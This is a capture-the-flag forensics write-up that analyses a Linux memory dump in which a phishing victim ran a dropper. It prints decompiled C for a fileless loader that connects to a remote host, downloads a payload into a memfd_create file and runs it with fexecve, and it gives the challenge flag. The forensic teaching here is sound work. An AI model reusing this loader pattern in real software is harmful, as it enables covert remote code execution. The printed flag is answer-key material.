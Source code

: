 # CCSC2022 - Fakedoor

**Category:** Forensics

**Author:** icyDux

### Description

Rick was furious when he heard that his naive nephew Morty clicked on a 
phishing e-mail about Real Fake Doors. Fortunately, Rick had managed to 
take a memory snapshot before Morty's computer was fully infected. Help 
Rick to find out what happened.

### Assets

We are provided with a download link to a Linux memory dump. After extracting the downloaded archive we are left with a memory dump and a volatility profile. Since we have a volatility profile I went ahead a used Vol 2 for this challenge. In order for volatility to use the provided profile I copied it to `<volatility repo>/volatility/plugins/overlays/linux/`



Google Drive link: [fakedoor.gz](https://drive.google.com/file/d/1PLy_oO2P0fR-6ltu9YzSpU9d4fpvLdh7/view?usp=sharing)

### First Inspection

Running using the plugin `linux_psaux` yields the processes currently running on the machine. We can make out an unusual process being executed called `dr0ppe3r`

![](assets/writeup/2022-05-17-17-32-49-image.png)

### Extracting and Examining the malware

![](assets/writeup/2022-05-17-17-35-39-image.png)

![](assets/writeup/2022-05-17-17-36-42-image.png)

![](assets/writeup/2022-05-17-17-41-31-image.png)

We can now use Ghidra or some other tool to reverse it. 

```c
undefined8 FUN_004007f0(void)

{
  int iVar1;
  ssize_t sVar2;
  undefined local_428 [1024];
  char *local_28;
  undefined8 local_20;
  undefined8 local_18;
  int local_10;
  int local_c;

  local_18 = 0xb5ca8c011110002;
  local_28 = "b4ckd00r";
  local_20 = 0;
  local_c = socket(2,1,6);
  if (local_c < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = connect(local_c,(sockaddr *)&local_18,0x10);
  if (iVar1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_10 = FUN_004007c6("s3cr3t",1);
  if (local_10 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar2 = read(local_c,local_428,0x400);
    if (sVar2 < 1) break;
    write(local_10,local_428,0x400);
  }
  close(local_c);
  sleep(0x14);
  iVar1 = fexecve(local_10,&local_28,_DAT_00600d68);
  if (iVar1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return 0;
}
```

This program connects to a remote machine and afterwards calls the `FUN_004007c6` which is a `syscall` wrapper:

```c
void FUN_004007c6(undefined8 param_1,uint param_2)

{
  syscall(0x13f,param_1,(ulong)param_2);
  return;
}
```

The `syscall` ID of `319` corresponds to `memfd_create`, which creates a "file" that resides in memory and returns a file descriptor to that file. More [here](https://man7.org/linux/man-pages/man2/memfd_create.2.html). It then receives data and eventually writes them to said `fd`. After finishing receiving it executes that file using `fexecve()` which is the same as `execve()` but the file resides in memory, so you pass a `fd` as the first argument.

So it's becoming clear that our goal is to find what was written in that file.

### Down the rabbit hole

I spent almost a week searching everywhere about how can we detect and read from a file descriptor in memory, but with no results. I came across what I think was the inspiration for this challenge, even the source code was identical 

[Super-Stealthy Droppers - Malware - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/super-stealthy-droppers/3715)

I knew I had to use the `volshell` to traverse the memory more interactively.

I fired up `volshell` and I displayed the current `task_struct` ([source](https://elixir.bootlin.com/linux/v3.16/source/include/linux/sched.h#L1224)):

![](assets/writeup/2022-05-17-18-19-42-image.png)

A member of the `task_struct` is the `files` struct which holds a table (`fdt`) that depicts the file descriptors for the task. ([source](https://elixir.bootlin.com/linux/v3.16/source/include/linux/fdtable.h#L45)).

![](assets/writeup/2022-05-17-18-36-30-image.png)

 This struct closely represents the struct found [here](https://elixir.bootlin.com/linux/v3.16/source/include/linux/fdtable.h#L24). My next thought was to traverse the `fd` member which is a double pointer to a `file` struct, meaning the `fd` is an array of pointers to all the `file` structs of the task. 

![](assets/writeup/2022-05-17-18-41-55-image.png)

This should be the first file in the list with the `f_u` member pointing to the next one. However when I tried to switch to the next one the `next` member was NULL thus this 'node' was the last in the list, and also the first... I dumped the `f_inode` of this file but it was empty, and also tried traversing a little deeper in the struct finding the name of the file which also didn't help.

I did not know what to make of this and was stuck here for a couple of days...

### Solution

I remember that the `linux_lsof` plugin displays the opened file descriptors 

![](assets/writeup/2022-05-17-18-53-16-image.png)

Now I just need a way to 'view' this file descriptor as the `file` struct to grab the `f_inode`

Back to `volshell`, I used the same plugin but using it within `volshell` we can display the addresses:

![](assets/writeup/2022-05-17-18-56-45-image.png)

Now we have to display the `file` struct at address `0xFFFF8800370B4300`... Can we just cast that address to a `file` struct? 

![](assets/writeup/2022-05-17-18-58-15-image.png)

I guess... but traversing this struct would be a painfully aggravating because we would have to cast every address to its respective struct. However we have the `f_inode` so we can dump the file it points to.

![](assets/writeup/2022-05-17-19-31-51-image.png) 

And we have another executable! Let's examine it with Ghidra!

```c
undefined8 main(void)

{
  FILE *__stream;
  uint uVar1;
  uint local_18;

  for (local_18 = 0; local_18 < 0x21; local_18 = local_18 + 1) {
    uVar1 = (uint)((int)local_18 >> 0x1f) >> 0x1c;
    b[(int)local_18] = b[(int)local_18] ^ a[(int)((local_18 + uVar1 & 0xf) - uVar1)];
  }
  __stream = fopen("/dev/null","w+");
  fputs(b,__stream);
  return 0;
}
```

A simple loop that calculates some characters and prints them to `/dev/null`. Instead of reversing it let's just debug it and check the contents of `b` just before the call to `puts`.

![](assets/writeup/2022-05-17-19-37-07-image.png)

![](assets/writeup/2022-05-17-19-37-38-image.png)

We got the flag! 

`CCSC{m3mfd_b4ckd00r5_4r3_c00l!!!}` 

One of my favorite challenges in the competition. It opened me up to new techniques that I had no clue about, both offensive and defensive. Big thanks to `icyDux` for creating such a cool challenge!
